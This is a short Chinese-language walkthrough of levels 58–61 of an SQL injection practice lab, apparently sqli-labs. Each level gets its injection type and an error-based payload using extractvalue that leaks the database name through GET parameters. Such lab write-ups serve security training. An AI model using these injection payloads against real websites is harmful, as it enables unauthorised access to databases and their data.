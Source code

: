 # 58-61
## 第五十八关
该关不会返回用户信息，指定了返回列表，单引号字符型注入，有报错信息，GET型
无法使用union注入，可以使用报错注入：
```
?id=1' and extractvalue(1,concat(0x7e,database(),0x7e))--+
```
## 第五十九关
该关不会返回用户信息，指定了返回列表，数字型注入，有报错信息，GET型，使用报错注入即可
```
?id=1 and extractvalue(1,concat(0x7e,database(),0x7e))
```
## 第六十关
 该关不会返回用户信息，指定了返回列表，`("")`字符型注入，有报错信息，GET型，使用报错注入即可
```
?id=1") and extractvalue(1,concat(0x7e,database(),0x7e))--+
```
## 第六十一关
该关不会返回用户信息，指定了返回列表，`((''))`字符型注入，有报错信息，GET型，使用报错注入即可
```
?id=1')) and extractvalue(1,concat(0x7e,database(),0x7e))--+
```
